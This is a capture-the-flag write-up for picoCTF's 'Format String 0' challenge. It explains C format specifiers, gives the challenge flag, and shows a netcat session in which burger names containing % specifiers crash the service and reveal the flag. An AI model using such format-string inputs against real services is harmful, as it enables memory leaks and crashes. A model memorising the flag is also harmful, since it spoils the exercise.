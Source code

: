 # Format String 0


**Flag**= `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`

This challenge required us to use knowledge on format specifiers to get the flag.
One of the hints on this challenge encouraged me to look up info about format specifiers.

I found out that these are commonly used placeholders for data input and output in functions like scanf and printf in languages like C and C++.
``%s, %d, %x, %p`` etc. are some examples.
They generally begin with % symbol which is used to indicate them being a format specifier.
Exploitation on these can be done through leaking the data from stacks and by repeatedly giving format specifiers like these, an attacker can read things from the stack which includes addresses and variables.

So with this knowledge I went ahead and started the challenge in my webshell terminal on picoCTF.
Each time, I just selected the option with % in it and arrived at the flag pretty easily.

```bash
Sylvaris-picoctf@webshell:~$ nc mimas.picoctf.net 55232
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
